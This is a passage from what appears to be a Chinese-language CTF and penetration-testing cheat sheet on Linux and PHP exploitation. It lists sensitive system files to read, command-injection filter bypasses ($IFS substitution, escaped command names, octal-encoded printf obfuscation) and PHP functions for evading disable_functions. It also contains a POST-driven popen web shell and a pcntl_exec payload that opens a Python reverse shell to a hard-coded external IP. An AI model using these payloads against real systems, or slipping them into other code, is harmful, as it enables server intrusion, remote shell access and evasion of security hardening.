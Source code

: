 ### 1-Linux系统利用

#### 常用文件夹

```shell
/etc/passwd   #用户信息
/var/www/html/index.php #常见网页文件夹
/proc/self/cmdline   #存储输入过的命令
/var/log/nginx/access.log #nginx访问日志
```

#### 命令注入

```shell
cd /flag;cat flag.php #堆叠指令
cat /flag | base64
l\s
ca\t
base64 flag.txt
#展示当前文件夹下所有文件内容e
cat$IFS$9`ls`
#空格替换
<  <> %09(tab)、%20、$IFS$9、$IFS$1、${IFS}、$IFS
#分隔符;
%0a
#执行命令source用.替换，?时通配符
. /??p/p?p??????
```

#### 读取文件内容

```shell
cat
tac
nl flag.txt
base64 flag.txt
#linux中的`printf`函数支持字符串的8进制表示的读入：
$(printf${IFS}"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")
\42\143\141\164\40\57\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160
#等价于
$(printf${IFS}"cat /flag_1s_here/flag_831b69012c67b35f.php")
```



### 2-Getshell中遇到disable Functions的处理

详解见：https://www.freebuf.com/articles/network/263540.html

很多运维人员会禁用PHP的一些“危险”函数，例如eval、exec、system等，将其写在php.ini配置文件中，就是我们所说的disable_functions了

#### 黑名单绕过，使用不常用函数尝试执行shell

exec()

```php
<?php
echo exec('whoami');
?>
```

shell_exec()

```php
<?php
echo shell_exec('whoami');
?>
```

system()

```php
<?php
system('whoami');
?>
```

passthru()

```php
<?php
passthru("whoami");
?>
```

popen()

```php
<?php
$command=$_POST['cmd'];
$handle = popen($command,"r");
while(!feof($handle)){        
    echo fread($handle, 1024);  //fread($handle, 1024);
}  
pclose($handle);
?>
```

proc_open()

```php
<?php
$command="ipconfig";
$descriptorspec = array(1 => array("pipe", "w"));
$handle = proc_open($command ,$descriptorspec , $pipes);
while(!feof($pipes[1])){     
    echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
}
?>
```

#### 利用pcntl_exec函数

还有一个比较常见的易被忽略的函数就是pcntl_exec。

**使用条件：**

**PHP安装并启用了pcntl插件**

pcntl是linux下的一个扩展，可以支持php的多线程操作。很多时候会碰到禁用exec函数的情况，但如果运维人员安全意识不强或对PHP不甚了解，则很有可能忽略pcntl扩展的相关函数。

利用pcntl_exec()执行test.sh：

```php
<?php
if(function_exists('pcntl_exec')) {
   pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
       echo 'pcntl extension is not support!';
}
?>
```

由于pcntl_exec()执行命令是没有回显的，所以其常与python结合来反弹shell

```php
<?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("132.232.75.90",9898));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));
```



### 3-RCE中的技巧
